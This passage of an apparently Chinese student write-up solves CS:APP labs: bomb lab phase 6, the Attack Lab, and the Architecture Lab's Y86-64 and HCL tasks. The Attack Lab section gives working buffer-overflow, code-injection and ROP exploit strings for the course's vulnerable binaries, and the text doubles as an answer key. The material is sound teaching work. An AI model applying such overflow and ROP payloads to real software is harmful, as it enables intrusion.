所以只需要每一列任意选择一个输入即可。


#### 6. phase 6

首先阅读 phase 6 的汇编代码：

```assembly
00000000004010f4 <phase_6>:
  4010f4:	41 56                	push   %r14
  4010f6:	41 55                	push   %r13
  4010f8:	41 54                	push   %r12
  4010fa:	55                   	push   %rbp
  4010fb:	53                   	push   %rbx
  4010fc:	48 83 ec 50          	sub    $0x50,%rsp
  401100:	49 89 e5             	mov    %rsp,%r13
  401103:	48 89 e6             	mov    %rsp,%rsi
  401106:	e8 51 03 00 00       	callq  40145c <read_six_numbers>
```

首先还是获取 6 个数字，这与之前的 phase 操作相同。

```assembly
  40110b:	49 89 e6             	mov    %rsp,%r14
  40110e:	41 bc 00 00 00 00    	mov    $0x0,%r12d
  401114:	4c 89 ed             	mov    %r13,%rbp
  401117:	41 8b 45 00          	mov    0x0(%r13),%eax
  40111b:	83 e8 01             	sub    $0x1,%eax
  40111e:	83 f8 05             	cmp    $0x5,%eax
  401121:	76 05                	jbe    401128 <phase_6+0x34>
  401123:	e8 12 03 00 00       	callq  40143a <explode_bomb>
  401128:	41 83 c4 01          	add    $0x1,%r12d
  40112c:	41 83 fc 06          	cmp    $0x6,%r12d
  401130:	74 21                	je     401153 <phase_6+0x5f>
  401132:	44 89 e3             	mov    %r12d,%ebx
  401135:	48 63 c3             	movslq %ebx,%rax
  401138:	8b 04 84             	mov    (%rsp,%rax,4),%eax
  40113b:	39 45 00             	cmp    %eax,0x0(%rbp)
  40113e:	75 05                	jne    401145 <phase_6+0x51>
  401140:	e8 f5 02 00 00       	callq  40143a <explode_bomb>
  401145:	83 c3 01             	add    $0x1,%ebx
  401148:	83 fb 05             	cmp    $0x5,%ebx
  40114b:	7e e8                	jle    401135 <phase_6+0x41>
  40114d:	49 83 c5 04          	add    $0x4,%r13
  401151:	eb c1                	jmp    401114 <phase_6+0x20>
  401153:	48 8d 74 24 18       	lea    0x18(%rsp),%rsi
```

然后阅读发现在循环当中 `mov 0x0(%r13),%eax` 会取出一个数字，这个数字被取出后，`sub $0x1,%eax` 和 `cmp $0x5,%eax` 会将其大小进行限制，即每个数字的大小都是小于等于 6 的。接下来看到 `add $0x1,%r12d` 和 `cmp $0x6,%r12d`，以及当判断成功时，跳转地址为 `0x401153` 会跳出循环。因此从上面这些指令可以猜测，`%r12d` 的作用是用作计数器来判断什么时候可以检测完这 6 个数字。

接着发现在这个外循环中套着一个内循环：

```assembly
  401135:	48 63 c3             	movslq %ebx,%rax
  401138:	8b 04 84             	mov    (%rsp,%rax,4),%eax
  40113b:	39 45 00             	cmp    %eax,0x0(%rbp)
  40113e:	75 05                	jne    401145 <phase_6+0x51>
  401140:	e8 f5 02 00 00       	callq  40143a <explode_bomb>
  401145:	83 c3 01             	add    $0x1,%ebx
  401148:	83 fb 05             	cmp    $0x5,%ebx
  40114b:	7e e8                	jle    401135 <phase_6+0x41>
```

`mov (%rsp,%rax,4),%eax` 这条指令明显的在获取当前数字后面的输入数字，从这个循环也不难推断，这是判断每个数字是否相同。所以这一个外循环的逻辑大概如下：

```c
for (int i = 0; i < 6; i++){
   if (a[i] - 1 > 5) {
      explode_bomb();
   }
   for (int j = i + 1; j <= 5; j++) {
      if(a[j] == a[i]) {
         explode_bomb();
      }
   }
}
```

所以我们目前得知的信息有：**每个数字的大小小于等于 6 且每个数字的大小不相同**。接着：

```assembly
  401153:	48 8d 74 24 18       	lea    0x18(%rsp),%rsi
  401158:	4c 89 f0             	mov    %r14,%rax
  40115b:	b9 07 00 00 00       	mov    $0x7,%ecx
  401160:	89 ca                	mov    %ecx,%edx
  401162:	2b 10                	sub    (%rax),%edx
  401164:	89 10                	mov    %edx,(%rax)
  401166:	48 83 c0 04          	add    $0x4,%rax
  40116a:	48 39 f0             	cmp    %rsi,%rax
  40116d:	75 f1                	jne    401160 <phase_6+0x6c>
```

这一段代码又用了一个循环将每个数字用 7 - 数字又存回了远处，即逻辑如：

```c
for(int i = 0; i < 6; i++) {
    a[i] = 7 - a[i];
}
```

接下来后面一段程序的逻辑看起来不明显，但是多次出现了 `0x6032d0` 这个内存地址，那就查看这个内存地址的信息：

```
(gdb) x 0x6032d0
0x6032d0 <node1>:       0x0000014c
(gdb) x/24xw 0x6032d0
0x6032d0 <node1>:       0x0000014c      0x00000001      0x006032e0      0x00000000
0x6032e0 <node2>:       0x000000a8      0x00000002      0x006032f0      0x00000000
0x6032f0 <node3>:       0x0000039c      0x00000003      0x00603300      0x00000000
0x603300 <node4>:       0x000002b3      0x00000004      0x00603310      0x00000000
0x603310 <node5>:       0x000001dd      0x00000005      0x00603320      0x00000000
0x603320 <node6>:       0x000001bb      0x00000006      0x00000000      0x00000000
```

那么可以推测这段代码与这些数字是密切相关的。

```assembly
  40116f:	be 00 00 00 00       	mov    $0x0,%esi
  401174:	eb 21                	jmp    401197 <phase_6+0xa3>
  401176:	48 8b 52 08          	mov    0x8(%rdx),%rdx
  40117a:	83 c0 01             	add    $0x1,%eax
  40117d:	39 c8                	cmp    %ecx,%eax
  40117f:	75 f5                	jne    401176 <phase_6+0x82>
  401181:	eb 05                	jmp    401188 <phase_6+0x94>
  401183:	ba d0 32 60 00       	mov    $0x6032d0,%edx
  401188:	48 89 54 74 20       	mov    %rdx,0x20(%rsp,%rsi,2)
  40118d:	48 83 c6 04          	add    $0x4,%rsi
  401191:	48 83 fe 18          	cmp    $0x18,%rsi
  401195:	74 14                	je     4011ab <phase_6+0xb7>
  401197:	8b 0c 34             	mov    (%rsp,%rsi,1),%ecx
  40119a:	83 f9 01             	cmp    $0x1,%ecx
  40119d:	7e e4                	jle    401183 <phase_6+0x8f>
  40119f:	b8 01 00 00 00       	mov    $0x1,%eax
  4011a4:	ba d0 32 60 00       	mov    $0x6032d0,%edx
  4011a9:	eb cb                	jmp    401176 <phase_6+0x82>
```

可以发现这段程序一开始的执行顺序应该是这样的：`40116f -> 401174 ->401197 -> 40119a -> 40119d`，到这里发现，这又当数字小于等于 1 的时候才会跳转，所以这里肯定是一个结束循环的检测条件。而分析得知 `mov $0x6032d0,%edx` 和 `mov %rdx,0x20(%rsp,%rsi,2)` 会修改链表的值，这个值就是链表互相连接的地址。

```assembly
  4011ab:	48 8b 5c 24 20       	mov    0x20(%rsp),%rbx
  4011b0:	48 8d 44 24 28       	lea    0x28(%rsp),%rax
  4011b5:	48 8d 74 24 50       	lea    0x50(%rsp),%rsi
  4011ba:	48 89 d9             	mov    %rbx,%rcx
  4011bd:	48 8b 10             	mov    (%rax),%rdx
  4011c0:	48 89 51 08          	mov    %rdx,0x8(%rcx)
  4011c4:	48 83 c0 08          	add    $0x8,%rax
  4011c8:	48 39 f0             	cmp    %rsi,%rax
  4011cb:	74 05                	je     4011d2 <phase_6+0xde>
  4011cd:	48 89 d1             	mov    %rdx,%rcx
  4011d0:	eb eb                	jmp    4011bd <phase_6+0xc9>
  4011d2:	48 c7 42 08 00 00 00 	movq   $0x0,0x8(%rdx)
```

而这一段程序则将链表重新连接起来，形成一个新的链表。

```assembly
  4011da:	bd 05 00 00 00       	mov    $0x5,%ebp
  4011df:	48 8b 43 08          	mov    0x8(%rbx),%rax
  4011e3:	8b 00                	mov    (%rax),%eax
  4011e5:	39 03                	cmp    %eax,(%rbx)
  4011e7:	7d 05                	jge    4011ee <phase_6+0xfa>
  4011e9:	e8 4c 02 00 00       	callq  40143a <explode_bomb>
  4011ee:	48 8b 5b 08          	mov    0x8(%rbx),%rbx
  4011f2:	83 ed 01             	sub    $0x1,%ebp
  4011f5:	75 e8                	jne    4011df <phase_6+0xeb>
```

从这段代码可以看出，`cmp %eax,(%rbx)` 和 `jge 4011ee <phase_6+0xfa>` 要求该序列需要非递增顺序的，而这个序列对应的实际上是链表中的顺序。而对于链表的非递增顺序为：

```
node3 -> node4 -> node5 -> node6 -> node1 -> node2
```

由于输入的数据与 7 做过差，因此我们可以得知**输入的数字顺序为：`4 -> 3 -> 2 -> 1 -> 6 -> 5`**。


### Attack Lab

#### 1. `ctarget` level 1

`ctarget` 程序的 level 1 要求实现修改返回地址。`ctarget` 给出了 `test` 的程序代码：

```c
void test() {
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

首先对 `ctarget` 进行反汇编 `objdump -d ctarget > ctarget.asm`，然后阅读 `getbuf` 的汇编代码：

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

现在，我们的目标就是要修改 `getbuf` 的返回地址，将其返回地址改为 `touch1` 程序的地址 `00000000004017c0`。我们知道，程序的栈空间是类似这样分配的：

| 返回地址 |
| :------: |
| 分配空间 |
| 分配空间 |
| 分配空间 |

那么当分配空间被写满时，由于没有边界检查，则会继续写入到返回地址中。在 `getbuf` 当中，程序分配了 40 个字节。因此我们需要先写入 40 个字节的无用信息，然后再把目标地址写入：

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 /* 0x28 bytes for stack space */
c0 17 40 00 00 00 00 00       /* address of touch1 */
```


#### 2. `ctarget` level 2

首先从 level 2 的要求中可以了解到，我们需要让 `ctarget` 程序执行到 `touch2` 程序当中。同时在执行 `touch2` 之前，需要将 `cookie` 信息作为参数传入到寄存器 `%rdi` 当中。

从 level 1 中我们可以知道，我们只有通过 `getbuf` 中获取的缓冲区内容才能完成代码注入攻击。与之前不同的是，现在不仅需要修改程序的返回地址，还需要执行其它的代码（将 `cookie` 信息作为参数传入到寄存器 `%rdi` 当中）因为我们只能通过 `getbuf` 中获取的缓冲区内容完成代码注入攻击，这就意味着我们需要执行在栈上的注入代码。那么，我们首先需要获取栈顶的地址：


可以得到在 `getbuf` 分配空间后的栈顶地址为：`0x5561dc78`。为了在执行 `touch2` 之前完成参数的传递，因此我们需要修改 `getbuf` 函数的返回地址为栈顶地址 `0x5561dc78`（在这里与 level 1 是一样的）。

接着我们就需要往栈顶中写入需要执行的代码（保存为 `level2.s`）：

```assembly
movq $0x59b997fa, %rdi
pushq $0x4017ec
retq
```

首先是将我们所需要用到的 cookie 信息当作参数传入到 `%rdi` 寄存器当中，以便 `touch2` 程序能够比较，接下来需要将程序跳转到 `touch2`。根据代码提示，我们应该使用 `ret` 语句来实现控制权的转换，我们知道 `ret` 语句会从栈中弹出获取一个返回地址，所以我们需要将 `touch2` 的地址 `0x4017ec` 先存入到栈上。

接着对其进行汇编得到 `level2.o`，然后再将 `level2.o` 反汇编成为 `level2.d`：

```bash
gcc -c level2.s
objdump -d level2.o > level2.d
```

得到：

```assembly
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	pushq  $0x4017ec
   c:	c3                   	retq   
```

那么就有了注入的代码段，接着将其保存在 `level2.txt` 当中，然后运行：


#### 3. `ctarget` level 3

level 3 的大致要求与 level 2 是一致的。只不过在这里要求传入的参数为 cookie 字符串。为了传入这个字符串，我们需要将 cookie 存入到栈上空间。但是栈的空间在本次是随机的，因此我们需要将这个 cookie 信息存入到一个安全的位置。因此将 cookie 字符串的信息存入到返回地址之后，这样就不会被其它程序所修改。所以 cookie 字符串信息将会保存在离栈顶距离为 `0x28 + 0x8` 字节处位置。其中 `0x28` 字节是由 `getbuf` 分配的栈空间，而 `0x8` 是返回地址所占的空间。所以存储位置为 `0x5561dc78 + 0x28 + 0x8 = 0x5561dca8`

根据提示，我们需要将 cookie 字符串以 ASCII 的形式存储，因此将其存储为：

```
35 39 62 39 39 37 66 61       /* ascii code for 59b997fa */
```

同 level 2，接下来往栈顶中写入需要执行的代码（保存为 `level3.s`）：

```assembly
movq $0x5561dca8, %rdi
pushq $0x4018fa
retq
```

接着对其进行汇编得到 `level3.o`，然后再将 `level3.o` 反汇编成为 `level3.d`：

```bash
gcc -c level3.s
objdump -d level3.o > level3.d
```

得到：

```assembly
0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```

那么就有了注入的代码段，接着将其保存在 `level3.txt` 当中，然后运行：


#### 4. `rtarget` level 1

`rtarget` 相比之前的 `ctarget` 更难攻击，因为：

- 开启了栈随机化，无法准确获知代码注入的地址
- PC 无法指向栈内地址，否则会直接报内存错误

但对于 `rtarget`，我们仍然可以利用 ROP 攻击：

ROP 攻击一般得满足如下条件

- 程序存在溢出。
- 可以找到满足条件的 gadgets 以及相应 gadgets 的地址。

gadget 通常是 `ret` 语句结尾，我们通过内存越界更改返回地址，就可以让程序依次执行一系列 gadgets，这样，我们就可以通过一系列 gadgets 拼凑出我们希望执行的指令。例如该例子：

```assembly
0000000000400f15 <setval_210>:
	400f15: c7 07 d4 48 89 c7 	movl $0xc78948d4,(%rdi)
	400f1b: c3 					retq
```

字节序列 48 89 c7 编码成指令 `movq %rax, %rdi`。这条指令原本的起始地址为 `0x400f15`，如果我们能修改其起始地址为 `0x400f18` 的话，这条指令被执行时就会被编码成为 `movq %rax, %rdi`。因此，我们的目标就是需要从给出的 gadgets 找出这些隐藏起来的指令，然后修改返回地址到这些指令的起始地址，这样就能完成 ROP 攻击，执行我们想要执行的功能目标。

首先还是需要将 `rtarget` 进行反汇编得到 `rtarget.asm`

```bash
objdump -d rtarget > rtarget.asm
```

现在，为了完成实验目标，我们还是需要将 cookie 传入到 `%rdi` 当中，且让程序能够成功进入到 `touch2` 程序。为了让 cookie 传入到 `%rdi` 当中，我们还是需要将 cookie 存储到栈上。然后让其 `movq` 到 `%rdi` 当中。但是可以发现给出的附录当中没有相关信息，因此可以排除直接从内存 `movq` 到寄存器 `%rdi` 的想法。但是可以使用 `popq` 到一个寄存器 `R` 中，再使用 `movq, R, %rdi` 来进行操作。因此：

发现 `movq, S, D` 的指令都是以 `48 89` 为起始字节序列的，因此寻找这个结果：

```assembly
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq  

0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	retq  
```

发现只有这两种。因为我们的目标寄存器是 `%rdi`，所以只能选取 `48 89 c7` 这个作为我们的选择。而 `48 89 c7` 对应的正是 `movq %rax, %rdi`，因此我们还需要有  `popq %rax`，因此搜索 `58`：

```assembly
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```

所以从上面这两条指令，可以给出两个起始地址为 `0x4019ab` 和 `0x4019c5`。那么就有了注入的代码段，接着将其保存在 `phase4.txt` 当中，然后运行：


#### 5. `rtarget` level 2

与 `ctarget` level 3 是一样的，我们需要将 cookie 的字符串信息存储在栈上，然后将 cookie 存储的地址发送给 `%rdi` 寄存器。所以我们需要计算 cookie 存储的地址。从之前的经历我们知道，cookie 存储的地址是通过栈顶寄存器 `%rsp` 和一个偏移量相加来完成的。因此，我们需要利用到 gadgets 当中的加法函数，可以在 `farm.c` 中找到 `add_xy()` 这个函数。

```assembly
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
```

因此，我们需要将 `%rsp` 的值和偏移量作为参数传入该函数当中。

从之前的经历可以知道，`movq` 只存在 `movq %rax, %rdi` 和 `movq %rsp, %rax` 这两种。但是这个刚好符合本题的要求。因此我们可以先执行 `movq %rsp, %rax` 然后再执行 `movq %rax, %rdi`。那这样的话，偏移量就该存到 `%rsi` 寄存器中。同理，使用 `popq` 来将偏移量存入到 `%rsi` 寄存中。因为没有直接的 `popq %rsi` gadget 程序，因此需要先将其 `pop` 到其中某个寄存器当中，然后将其逐步的搬移到 `%rsi` 寄存器当中。最后，调用完 `add_xy()` 函数后，需要把返回值 `%rax` 移动到参数寄存器中 `%rdi`。其中，在将偏移量 `0x48` 移动到寄存器 `%rsi` 之前，需要将其以此的移动到 `%rax`，`%rdx` 和 `%rcx` 寄存器当中。而在移动的过程中，主要使用其 32 位寄存器进行移动。在移动过程中，`movl %edx, %ecx` 这句指令（编码为 `89 d1`）的起始位置在 `0x401a69`：

```assembly
0000000000401a68 <getval_311>:
  401a68:	b8 89 d1 08 db       	mov    $0xdb08d189,%eax
  401a6d:	c3                   	retq  
```

在其后面的 `08 db` 字节序列代表的是指令 `orb %bl, %bl`，这句指令执行与否是不会产生任何副作用的，因此这条指令可以安全使用。因此上述移动过程是合法的。

那么就有了注入的代码段，接着将其保存在 `phase5.txt` 当中，然后运行：

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00   /* 0x28 bytes for stack space */
06 1a 40 00 00 00 00 00         /* address of movq %rsp, %rax */
c5 19 40 00 00 00 00 00         /* address of movq %rax, %rdi */
ab 19 40 00 00 00 00 00         /* address of popq %rax */
48 00 00 00 00 00 00 00         /* offset of cookie for pop */
dd 19 40 00 00 00 00 00         /* address of movl %eax, %edx */
69 1a 40 00 00 00 00 00         /* address of movl %edx, %ecx */
13 1a 40 00 00 00 00 00         /* address of movl %ecx, %esi */
d6 19 40 00 00 00 00 00         /* address of add_xy function */
c5 19 40 00 00 00 00 00         /* address of movq %rax, %rdi */
fa 18 40 00 00 00 00 00         /* address of touch3 */
35 39 62 39 39 37 66 61 00      /* ascii code for 59b997fa */
```


### Architecture Lab

首先获取实验框架，然后解压：

```bash
tar -xvf http://csapp.cs.cmu.edu/3e/archlab-handout.tar
tar -xvf archlab-handout.tar
rm archlab-handout.tar
cd archlab
tar -xvf sim.tar
rm sim.tar
cd sim
```

然后执行 `make` 后会发现：

```bash
/usr/bin/ld: cannot find -lfl
collect2: error: ld returned 1 exit status
```

这时候就需要安装 `flex` 和 `bison`

```bash
sudo apt install flex bison
```

同时还会报错：

```
/usr/bin/ld: cannot find -ltk
/usr/bin/ld: cannot find -ltcl
```

这时候需要安装：

```bash
sudo apt install tk8.6-dev tcl8.6-dev
```

并且修改 `Makefile` 为：

```makefile
TKLIBS=-L/usr/lib -ltk8.6 -ltcl8.6
TKINC=-isystem /usr/include/tcl8.6
```

但是发现 `make` 后还是会报错，因此将有关的所有有关报错信息进行注释，包括 `interp->result` 和 `matherr`。最后程序便可以运行起来。

#### 1. Part A

part A 部分需要把给出的 c 语言程序转换成为 Y86-64 程序。即用 Y86-64 语言重写这些程序：

```c
/* sum_list - Sum the elements of a linked list */
long sum_list(list_ptr ls)
{
    long val = 0;
    while (ls) {
	val += ls->val;
	ls = ls->next;
    }
    return val;
}

/* rsum_list - Recursive version of sum_list */
long rsum_list(list_ptr ls)
{
    if (!ls)
	return 0;
    else {
	long val = ls->val;
	long rest = rsum_list(ls->next);
	return val + rest;
    }
}

/* copy_block - Copy src to dest and return xor checksum of src */
long copy_block(long *src, long *dest, long len)
{
    long result = 0;
    while (len > 0) {
	long val = *src++;
	*dest++ = val;
	result ^= val;
	len--;
    }
    return result;
}
```

- 对于 `sum_list` 函数，可以仿造课本上图 4-8 的例子

  由于给出的链表结构如下：

  ```assembly
  # Sample linked list
  .align 8
  ele1:
      .quad 0x00a
      .quad ele2
  ele2:
      .quad 0x0b0
      .quad ele3
  ele3:
      .quad 0xc00
      .quad 0
  ```

  我们可以知道，链表的首地址就是 `ele1` 所代表的地址，因此在调用 `sum_list` 函数之前，需要将链表地址 `ele1` 作为参数传入到寄存器 `%rdi` 中。在 `sum_list` 函数中，首先将返回值设置为 0，然后对链表是否为空进行判断。这里使用 `andq %rdi, %rdi` 对链表中的地址进行判断，当链表地址为 0 的时候，说明链表结束。而链表的移动可以使用 `mrmovq 8(%rdi), %rdi` 来进行，因此可以得到最后的程序为：

  ```assembly
  sum_list:
      xorq %rax, %rax         # set sum = 0
      jmp test
  loop:
      mrmovq 0(%rdi), %r10    # get element
      addq %r10, %rax         # sum = sum + element
      mrmovq 8(%rdi), %rdi    # get link list next address
  test:
      andq %rdi, %rdi         # set condition code
      jne loop
      ret
  ```

  最后程序的运行结果为：

  

  可以看到，最后返回值 `%rax` 为 `0xcba`，为链表元素的和，因此结果是正确的。

- 对于 `rsum_list` 函数，其整体原理是和 `sum_list` 函数是一样的，唯一不同的是 `rsum_list` 函数采用的是递归的方式进行求和。我们知道，在使用递归函数进行计算时，需要保存每个函数中的寄存器信息。从之前的 Y86-64 程序中我们发现，每次调用 `sum_list` 的时候，都需要将链表元素从内存中存储到 `%r10` 寄存器当中。因此在 `rsum_list` 函数中，为了每次能够正确的使用该元素，需要用 `pushq %r10` 将其存到栈中。当递归调用 `rsum_list` 函数结束之后，再将这个值用 `popq %r10` 取出，然后进行求和计算。因此可以得到函数为：

  ```assembly
  rsum_list:
      andq %rdi, %rdi         # set condition code
      jne goahead
      ret
  goahead:
      mrmovq 0(%rdi), %r10    # get element
      pushq %r10              # store current element, for recursive calling will change %r10
      mrmovq 8(%rdi), %rdi    # get link list next address
      call rsum_list          # recursively call
      popq %r10               # get current call's %r10
      addq %r10, %rax         # sum return value 
      ret
  ```

  其实在这里 `%rdi` 寄存器也是需要进行保存的，但是因为在调用 `rsum_list` 函数之后，我们的程序不再需要使用 `%rdi` 寄存器的值，因此是否保存其并不会影响结果。最后程序运行结果为：

  

  可以看到，最后返回值 `%rax` 为 `0xcba`，为链表元素的和，因此结果是正确的。

- 对于 `copy_block` 函数，这个函数的难度也不大。其主要需要处理的两条语句为：

  ```c
  long val = *src++;
  *dest++ = val;
  ```

  这两条语句可以转换为：

  ```assembly
  mrmovq (%rdi), %r10     # get src value
  addq %r8, %rdi          # change src address
  rmmovq %r10, (%rsi)     # move src value to dest
  addq %r8, %rsi          # change dest address
  ```

  其中 `%r8` 寄存器中存储的是立即数 8，因为地址的偏移是以 8 字节为单位的。其余部分和之前的内容差异不大，最后的函数为：

  ```assembly
  copy_block:
      irmovq $8, %r8          # get constant 8 to change address
      irmovq $1, %r9          # get constant 1 to change length
      xorq %rax, %rax         # set result = 0
      andq %rdx, %rdx         # set condition code 
      jmp test
  loop:
      mrmovq (%rdi), %r10     # get src value
      addq %r8, %rdi          # change src address
      rmmovq %r10, (%rsi)     # move src value to dest
      addq %r8, %rsi          # change dest address
      xorq %r10, %rax         # modify checksum
      subq %r9, %rdx          # change length--
  test:
      jne loop
      ret
  ```

  程序运行的结果为：

  

  可以看到，原先 dest 所在的内存地址中的数值全部被替换成了 src 内存中的值，且检验和 `%rax` 的值也是三个数的和，因此程序的运行是正确的。

#### 2. Part B

part B 的主要工作就是拓展 SEQ 处理器以让其支持 `iaddq` 指令。`iaddq` 指令的阶段如下：

|  阶段   |                        `iaddq V, rB`                         |
| :-----: | :----------------------------------------------------------: |
|  取指   | $\operatorname{icode:ifun\leftarrow M_1[PC]}$<br />$\operatorname{rA:rB\leftarrow M_1[PC+1]}$<br />$\operatorname{valC\leftarrow M_8[PC+2]}$<br />$\operatorname{valP\leftarrow PC+10}$ |
|  译码   |            $\operatorname{valB\leftarrow R[rB]}$             |
|  执行   |          $\operatorname{valE\leftarrow valC+valB}$           |
|  访存   |                                                              |
|  写回   |            $\operatorname{R[rB]\leftarrow valE}$             |
| 更新 PC |              $\operatorname{PC\leftarrow valP}$              |

根据上述处理阶段，因此可以修改 `seq-full.hcl` 的对应部分如下：

```hashicorp
## Fetch Stage ##

bool instr_valid = icode in 
	{ INOP, IHALT, IRRMOVQ, IIRMOVQ, IRMMOVQ, IMRMOVQ,
	       IOPQ, IJXX, ICALL, IRET, IPUSHQ, IPOPQ, IIADDQ };

# Does fetched instruction require a regid byte?
bool need_regids =
	icode in { IRRMOVQ, IOPQ, IPUSHQ, IPOPQ, 
		     IIRMOVQ, IRMMOVQ, IMRMOVQ, IIADDQ };

# Does fetched instruction require a constant word?
bool need_valC =
	icode in { IIRMOVQ, IRMMOVQ, IMRMOVQ, IJXX, ICALL, IIADDQ };
	
## Decode Stage ##

## What register should be used as the B source?
word srcB = [
	icode in { IOPQ, IRMMOVQ, IMRMOVQ, IIADDQ  } : rB;
	icode in { IPUSHQ, IPOPQ, ICALL, IRET } : RRSP;
	1 : RNONE;  # Don't need register
];

## What register should be used as the E destination?
word dstE = [
	icode in { IRRMOVQ } && Cnd : rB;
	icode in { IIRMOVQ, IOPQ, IIADDQ} : rB;
	icode in { IPUSHQ, IPOPQ, ICALL, IRET } : RRSP;
	1 : RNONE;  # Don't write any register
];

## Execute Stage ##

## Select input A to ALU
word aluA = [
	icode in { IRRMOVQ, IOPQ } : valA;
	icode in { IIRMOVQ, IRMMOVQ, IMRMOVQ, IIADDQ } : valC;
	icode in { ICALL, IPUSHQ } : -8;
	icode in { IRET, IPOPQ } : 8;
	# Other instructions don't need ALU
];

## Select input B to ALU
word aluB = [
	icode in { IRMMOVQ, IMRMOVQ, IOPQ, ICALL, 
		      IPUSHQ, IRET, IPOPQ, IIADDQ } : valB;
	icode in { IRRMOVQ, IIRMOVQ } : 0;
	# Other instructions don't need ALU
];

## Should the condition codes be updated?
bool set_cc = icode in { IOPQ, IIADDQ };
```

对于 Memory Stage 和 Program Counter Update 两个阶段来说，程序中不需要做进一步的修改。最后程序的正确性测试如下：


#### 3. Part C

本部分的实验目的是修改 `ncopy.ys` 代码和 `pipe-full.hcl` 文件，使得其运行性能尽可能高。

首先运行测试程序，看看代码框架给出的原始代码的性能如何：

```bash
./benchmark.pl
```


可以看出，程序给的初始代码性能非常低，原因在于程序的初始代码中，存在许多低效的操作，从 partB 的部分我们知道，我们为 SEQ 处理器增加一个指令 `iaddq`，使得立即数可以直接与寄存器中的数字相加，这样可以替换原始程序中的 `irmovq` 和 `subq` 或者 `addq` 指令，这样可以提高运行速度，因此修改 `pipe-full.hcl` 文件，为其增加 `iaddq` 指令功能。这里的修改内容和 partB 部分完全一样，因此不再赘述，修改完 `pipe-full.hcl` 文件之后，测试 `iaddq` 是否正确：

```bash
make psim VERSION=full
cd ../ptest
make SIM=../pipe/psim TFLAGS=-i
```


接着修改 `ncopy.ys` 文件，替换为 `iaddq` 指令，添加完成之后：

```assembly
	xorq %rax,%rax		# count = 0;
	andq %rdx,%rdx		# len <= 0?
	jle Done		# if so, goto Done:
Loop:
	mrmovq (%rdi), %r10	# read val from src...
	rmmovq %r10, (%rsi)	# ...and store it to dst
	andq %r10, %r10		# val <= 0?
	jle Npos		# if so, goto Npos:
	iaddq $1, %rax		# count++
Npos:
	iaddq $-1, %rdx		# len--
	iaddq $8, %rdi		# src++
	iaddq $8, %rsi		# dst++
	andq %rdx,%rdx		# len > 0?
	jg Loop			# if so, goto Loop:
```

替换之后，执行 `./benchmark.pl` 程序测试性能：


可以看出，程序的性能有较大的提升，但是提升后的性能远远不能满足实验要求，因此仍然需要做进一步的优化。因此接下来尝试循环展开 2 次。循环展开是一种程序变换，通过增加每次迭代计算的元素数量，减少循环的迭代次数。因为循环展开可以减少循环变量的索引变换次数和减少条件分支的次数，能够有效的减少处理器中的气泡或者冲突冒险。同时通过循环展开，我们还可以做代码移动，常量传播等操作，因此可以根据指令之间的关联性，做进一步的优化操作。所以接下来首先尝试 2 次循环展开：

```assembly
	xorq %rax, %rax
	andq %rdx, %rdx
	jle Done
	irmovq $1, %r8
	andq %rdx, %r8		# odd or even
	jne first
Loop2:
	mrmovq (%rdi), %r10
	mrmovq 8(%rdi), %r11
	rmmovq %r10, (%rsi)
	rmmovq %r11, 8(%rsi)
	andq %r10, %r10
	jle next1
	iaddq $1, %rax
next1:
	andq %r11, %r11
	jle next2
	iaddq $1, %rax
next2:
	iaddq $-2, %rdx
	iaddq $16, %rdi
	iaddq $16, %rsi
test:
	andq %rdx, %rdx
	jg Loop2
	jmp Done

first:
	mrmovq (%rdi), %r10
	rmmovq %r10, (%rsi)
	andq %r10, %r10
	jle next3
	iaddq $1, %rax
next3:
	iaddq $-1, %rdx
	iaddq $8, %rdi
	iaddq $8, %rsi
	andq %rdx, %rdx
	jmp test
```

上述循环展开的逻辑为：首先判断要复制的长度参数 `%rdx` 是奇数还是偶数（因为做的是 2 路循环展开）。如果长度是奇数的话，让其首先进行一次复制操作，然后再让其进入到 2 路循环中。通过该循环展开，运行测试程序 `./benchmark.pl` 之后查看程序性能：


可以看到，程序性能有非常大的提升，证明了循环展开的有效性以及正确性。发现上述程序中，可以通过代码移动的方式，减少条件码的设置，因此可以将 `%rdx` 的记数变化移动到分支判断之前，这样可以减少 `andq %r10, %r10` 指令的执行次数，这样也能够起到优化程序的作用。

```assembly
next2:
	iaddq $16, %rdi
	iaddq $16, %rsi
	iaddq $-2, %rdx
test:
	jg Loop2
	jmp Done

first:
	mrmovq (%rdi), %r10
	rmmovq %r10, (%rsi)
	andq %r10, %r10
	jle next3
	iaddq $1, %rax
next3:
	iaddq $8, %rdi
	iaddq $8, %rsi
	iaddq $-1, %rdx
	jmp test
```

代码移动后，运行测试程序 `./benchmark.pl` 之后查看程序性能：


可以看出，程序的提升效果还是挺明显的。由于上述的 2 路展开并不能充分利用数据相关而产生的气泡，因此我们可以使用 4 路展开，通过减少数据相关，提高气泡阶段的硬件利用率，来提高程序的性能：

```assembly
	xorq %rax, %rax		# count = 0;
	andq %rdx, %rdx		# len <= 0?
	jle Done		# if so, goto Done:
	irmovq $3, %r8
	andq %rdx, %r8
	jne first
Loop2:
	mrmovq (%rdi), %r10
